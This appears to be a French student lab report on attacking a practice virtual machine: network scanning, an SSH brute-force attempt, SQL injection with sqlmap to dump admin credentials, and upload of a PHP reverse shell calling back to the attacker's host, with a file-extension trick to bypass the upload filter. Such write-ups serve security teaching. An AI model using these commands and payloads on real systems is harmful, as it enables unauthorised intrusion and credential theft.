 # Rapport du TP4

Comme d'habitude on commence par scanner toutes les machines sur le réseau
`sudo netdiscover -r 10.0.2.0/24`
![1732280959237](image/rapport-tp4/1732280959237.png)

Cela nous permet d'obtenir l'adresse ip de la machine que l'on souhaite attaquer : 10.0.2.7/24

on commence par faire une analyse détaillée de tous les ports ouverts.
`nmap -sC -sV -A -p- 10.0.2.7`

![1732281030145](image/rapport-tp4/1732281030145.png)

On voit que 2 ports sont ouverts : le 22 et le 80.

## Port 22

On sait que le port 22 correspont à ssh, donc on va faire une attaque brut force en utilisant hydra
`sudo hydra -l root -p /usr/share/wordlists/metasploit/unix_passwords.txt -t 6 ssh://10.0.2.7`

![1733943721935](image/rapport-tp4/1733943721935.png)

Sans succès...

Je peux utiliser msfconsole pour rechercher des vulnérabilités existantes.

`search OpenSSH 5.5 p1`

![1734266769958](image/rapport-tp4/1734266769958.png)!

Aucun exploit n'est connu pour cette version.

## Port 80

Il s'agit d'un serveur web, je me rend donc à l'url 10.0.2.7 et je tombe sur un blog

![1732281931595](image/rapport-tp4/1732281931595.png)

En cliquand sur le bouton "test", l'url change.

![1733942527386](image/rapport-tp4/1733942527386.png)

Si j'ajoute un caractère (virugle / apostrophe) dans l'url, j'obtiens un message m'indiquant une erreur de syntaxe SQL.

![1732282094489](image/rapport-tp4/1732282094489.png)

Je sais donc qu'il y a du SQL et je vais pouvoir utiliser l'outil SQLMap sur cette url pour tenter de trouver des failles.

Avec l'option "--dbs", on cherche à énumérer les bases de données. L'option "--batch" permet de ne pas avoir à confirmer les entrées dans le terminal, cela fait les choix par défaut.
`sqlmap -u http://10.0.2.7/cat.php?id=1 --dbs --batch`

Cette commande nous informe de l'existance de 2 bases de données : "information_schema" et "photoblog".

![1732283321308](image/rapport-tp4/1732283321308.png)

On va maintenant essayer de récupérer toutes les tables de la base de données "information_schema". L'option "-D" permet spécifier la base de données que l'on veut analyser.

`sqlmap -u http://10.0.2.7/cat.php?id=1 -D information_schema --tables`

![1732284725781](image/rapport-tp4/1732284725781.png)

Je ne remarque rien de spécial.

On essaye donc de récupérer toutes les tables de la base de données photoblog

`sqlmap -u http://10.0.2.7/cat.php?id=1 -D photoblog --tables`

![1732284864154](image/rapport-tp4/1732284864154.png)

Cette fois-ci on observe une table users qui peut nous intéresser pour potentiellement obtenir des identifiants de connexion.

La commande suivante nous permet de tirer des informations des utilisateurs de la base de données photoblog avec l'option "-D" pour spécifier la base de données photoblog et "-T" pour spécifier que l'on veut rechercher dans la table users. "--dump" permet d'extraire des informations de la table.

`sqlmap -u http://10.0.2.7/cat.php?id=1 -D photoblog -T users --dump --batch`

![1732285222603](image/rapport-tp4/1732285222603.png)

La commande nous affiche un user (admin) avec son mot de passe (P4ssw0rd).

En retournant sur google à l'url "http://10.0.2.7" on peut se rendre dans l'onglet admin qui présente un onglet de connexion. Je peux ainsi entrer les identifiants que j'ai obtenu dans la base de données et je parviens effectivement à me connecter.

![1732285546343](image/rapport-tp4/1732285546343.png)

Cela nous redirige vers la page de gestion des utilisateurs

![1732285714579](image/rapport-tp4/1732285714579.png)

Etant donné que PHP est utilisé pour gérer les requêtes, on peut essayer de générer un payload PHP pour attaquer la cible. Un payload PHP est un morceau de code PHP que l'on va insérer dans le serveur cible, afin d'obtenir un shell dans ce cas, pour nous permettre de contrôler le système à distance.

On va générer un script PHP contenant un reverse payload. Ce script va établir une connexion vers l'adresse IP 10.0.2.4 (l'ip de ma machine kali) sur le port (1234).

On fais donc une copie d'un payload pré-existant sur la machine sur notre bureau.

`cp /usr/share/webshells/php/php-reverse-shell.php ~/Desktop/script.php`

Maintenant on va modifier ce fichier "script.php" afin de faire correspondre l'ip (ip hôte) et le numéro de port (1234).

`sudo nano ~/Desktop/script.php`

![1732293885837](image/rapport-tp4/1732293885837.png)

Je peux ouvrir une connexion netcat qui va écouter sur le port 1234 de la machine hote.

`nc -lvp 1234`

L'option -l permet d'écouter sur le port 1234 (listen), l'option -v ajoute de la verbosité et l'option -p permet de spécifier le port.

Sur le site web, je clique sur ajouter une image en dessous du tableau.

![1733943172267](image/rapport-tp4/1733943172267.png)

En essayant d'importer le "script.php", et j'ai alors un message d'erreur indiquant "NO PHP!!" qui s'affiche.

![1732289222546](image/rapport-tp4/1732289222546.png)

Pour bypass cette erreur, on peut modifier le nom du fichier de "payload.php" en "payload.pHP". Puis on le réimporte, il n'ya a pas d'erreur et le payload est bien upload sur la machine cible. 

![1732294916166](image/rapport-tp4/1732294916166.png)

Enfin, en cliquant sur le script dans la liste, ce dernier s'execute et netcat intercepte la connexion sur le port 1234, me redirigeant directement sur le terminal de la machine cible.

![1732294208906](image/rapport-tp4/1732294208906.png)

Je peux vérifier que je suis bien connecté à la machine cible avec la commande "ip addr". On retrouve bien l'ip `10.0.2.7`.

![1732295085822](image/rapport-tp4/1732295085822.png)

De plus, grâce à la commande `whoami`, je peux vérifier que je suis connecté à la machine cible en tant qu'utilisateur 'www-data' qui est l'utilisateur par défaut des serveurs web sur linux.

![1733943345811](image/rapport-tp4/1733943345811.png)